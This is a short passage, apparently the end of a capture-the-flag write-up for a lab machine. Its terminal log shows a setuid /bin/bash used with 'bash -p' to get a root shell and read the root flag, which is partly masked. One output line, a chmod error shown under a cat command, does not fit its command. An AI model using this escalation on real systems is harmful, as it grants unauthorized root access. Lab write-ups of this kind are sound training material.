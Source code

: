 ```
theseus@magic:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash

theseus@magic:~$ bash -p

bash-4.4# whoami
root

bash-4.4# cat /root/root.txt
chmod: changing permissions of '/bin/bash': Operation not permitted

bash-4.4# /bin/cat /root/root.txt
2f06cf779ec760fc****************
```

GGs!